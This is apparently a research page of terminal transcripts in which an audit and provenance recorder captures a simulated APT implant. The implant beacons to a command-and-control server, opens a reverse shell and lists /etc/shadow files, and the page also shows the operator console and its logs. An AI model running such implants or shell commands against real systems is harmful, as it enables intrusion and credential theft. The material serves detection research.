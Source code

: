 sample output
=============

    Script started on Thu 11 Aug 2016 11:39:34 AM PDT
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ ./run_simple_apt.sh
    Running on unusual Monitored Host. Proceding...
    /tmp/simple 13.1.102.2 4000

    + sudo auditctl -a exit,always -F arch=b64 -S socket -S bind -S listen -S accept
    + sudo auditctl -l -a always,exit -F arch=x86_64 -S socket,accept,bind,listen
    + sudo auditctl -b 8000
    enabled 1
    flag 1
    pid 529
    rate_limit 0
    backlog_limit 8000
    lost 0
    backlog 0

    + sudo spade start
    + exit 0
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ Starting SPADE as a daemon with PID: 13259

    hangang:~/adapt/classifier/phase3/marker/monitored-host$ spade control

    SPADE 2.0 Control Client

    Available commands:
    	add reporter|storage <class name> <arguments>
    	add filter|transformer <class name> position=<number> <arguments>
    	add sketch <class name>
    	remove reporter|storage|sketch <class name>
    	remove filter|transformer <position number>
    	list reporters|storages|filters|sketches|transformers|all
    	config load|save <filename>
    	exit

    -> list all
    No reporters added
    No storages added
    No filters added
    No transformers added
    No sketches added

    -> add storage CDM output=/tmp/simple_apt.cdm
    Adding storage CDM... done

    -> add reporter Audit arch=64 units=false fileIO=true netIO=true
    Adding reporter Audit... done

    -> list all
    1 reporter(s) added:
    	1. Audit (arch=64 units=false fileIO=true netIO=true)
    1 storage(s) added:
    	1. CDM (output=/tmp/simple_apt.cdm)
    No filters added
    No transformers added
    No sketches added

    -> exit
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ sudo auditctl -s
    enabled 1
    flag 1
    pid 529
    rate_limit 0
    backlog_limit 8000
    lost 0
    backlog 1126
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ /tmp/simple 13.1.102.2 4000
    [*] Target: 13.1.102.2:4000
    [*] Initializing message subsystem
    [*] Initializing network
    [*] Initializing session
    [*] Starting session
    [*] Getting OS information...
    [*] Linux #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) (3.16.0-4-amd64)
    [*] Encoding message
    [*] Encoding new connection info message
    [*] Sending message of 80 bytes (1 chunks)
    [*] Sending data: 95 bytes
    [*] Sent chunk of 95 bytes
    [*] Sent total message of 80 bytes
    [*] Sent 80 bytes
    [*] Creating message loop thread...
    [*] Starting message receive loop...
    [*] Entering C&C message processing loop...
    [*] Received 24 bytes
    [*] Allocating 24 bytes for pMsg
    [*] Destroying message list 1
    [*] Received message type 210 (9 bytes)
    [*] Decoding Shell Request message
    [*] Creating message type 210 handler thread...
    [*] shell_start
    [+] Shell session connecting to listener at 13.1.102.2:40000
    [+] Shell session connected to listener at 13.1.102.2:40000
    [*] Child exited with status 0
    [*] Exiting message receive loop
    [*] Session is not connected
    [*] Ending session
    [*] Cleaning up network
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ time sudo spade stop
    SPADE daemon will stop after buffers clear.

    real	0m1.500s
    user	0m0.448s
    sys	0m0.056s
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ sudo auditctl -s
    enabled 1
    flag 1
    pid 529
    rate_limit 0
    backlog_limit 8000
    lost 0
    backlog 0
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ exec ls -l /tmp/simple_apt.cdm
    -rw-r--r-- 1 root root 359569 Aug 11 11:41 /tmp/simple_apt.cdm

    Script done on Thu 11 Aug 2016 11:41:43 AM PDT


corresponding session in Shanghai
=================================

    galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$  python ocMain.py 13.1.102.2 4000
    [*] Listening for new connections on 13.1.102.2:4000
    MAIN>[*] Connected with 13.1.101.46:53951
    [*] Initialized message multiplexor
    [*] New console information
    [*] =======================
    [*] 	Linux
    [*] 	#1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29)
    [*] 	3.16.0-4-amd64
    [*] New Linux console: L1
    .
    MAIN>console L1
    L1>shell ls -l /etc/shadow*
    .
    <<< New shell child process 8633 created.  Use 'exit' to exit or CTRL-C to reset shell >>>
    -rw-r----- 1 root shadow 1563 Feb 11 13:27 /etc/shadow
    -rw------- 1 root root   1563 Feb 11 13:27 /etc/shadow-
    -rw-r----- 1 root shadow 1534 Feb 11 13:01 /etc/shadow.org
    [*] Script complete, exiting shell...
    L1>quit
    MAIN>[*] Lost connection to client
    [*] Exiting session...
    [*] Exiting client thread

    MAIN>galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$


logs retained by Unit 61398
===========================

    galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$  head -99 logs/20160811_112857/*.log
    ==> logs/20160811_112857/L1.log <==
    2016-08-11 11:40:33,114   ocConsoleBase:028 [DEBUG] Created log for new console L1
    2016-08-11 11:40:44,460 ocConsoleSubBase:039 [DEBUG] CMD: shell ls -l /etc/shadow*
    2016-08-11 11:40:44,587 ocConsoleSubBase:199 [DEBUG] SCRIPT: ls -l /etc/shadow*; exit


    <<< New shell child process 8633 created.  Use 'exit' to exit or CTRL-C to reset shell >>>

    -rw-r----- 1 root shadow 1563 Feb 11 13:27 /etc/shadow
    -rw------- 1 root root   1563 Feb 11 13:27 /etc/shadow-
    -rw-r----- 1 root shadow 1534 Feb 11 13:01 /etc/shadow.org

    2016-08-11 11:40:54,600 ocConsoleSubBase:233 [ INFO] Script complete, exiting shell...
    2016-08-11 11:40:56,599 ocConsoleSubBase:039 [DEBUG] CMD: quit
    2016-08-11 11:40:56,668   ocConsoleBase:081 [ INFO] Exiting client thread

    ==> logs/20160811_112857/main.log <==
    2016-08-11 11:28:57,289   ocConsoleBase:028 [DEBUG] Created log for new console None
    2016-08-11 11:28:57,289   ocConsoleBase:031 [DEBUG] ------ ConsoleMain ---------
    2016-08-11 11:28:57,290   ocConsoleBase:032 [DEBUG] 	module name: ocConsoleBase
    2016-08-11 11:28:57,290   ocConsoleBase:034 [DEBUG] 	parent process: 32398
    2016-08-11 11:28:57,290   ocConsoleBase:035 [DEBUG] 	process id: 8498
    2016-08-11 11:28:57,290  ocSocketServer:021 [DEBUG] Initializing socket server
    2016-08-11 11:28:57,290  ocSocketServer:040 [ INFO] Listening for new connections on 13.1.102.2:4000
    2016-08-11 11:40:33,054  ocSocketServer:047 [ INFO] Connected with 13.1.101.46:53951
    2016-08-11 11:40:33,110           ocMux:060 [ INFO] Initialized message multiplexor
    2016-08-11 11:40:33,110  ocSocketServer:086 [ INFO] New console information
    2016-08-11 11:40:33,110  ocSocketServer:087 [ INFO] =======================
    2016-08-11 11:40:33,111  ocSocketServer:089 [ INFO] 	Linux
    2016-08-11 11:40:33,111  ocSocketServer:091 [ INFO] 	#1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29)
    2016-08-11 11:40:33,111  ocSocketServer:093 [ INFO] 	3.16.0-4-amd64
    2016-08-11 11:40:33,111   ocConsoleMain:231 [ INFO] New Linux console: L1
    2016-08-11 11:40:33,115           ocMux:142 [DEBUG] [1000] Received 1/1 (95 bytes)
    .
    2016-08-11 11:40:39,386   ocConsoleMain:137 [DEBUG] Command: console [L1]
    2016-08-11 11:40:44,486           ocMux:074 [DEBUG] Sending message of 1 chunks...
    2016-08-11 11:40:56,599           ocMux:133 [ INFO] Lost connection to client
    2016-08-11 11:40:56,599           ocMux:134 [ INFO] Exiting session...
    galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$
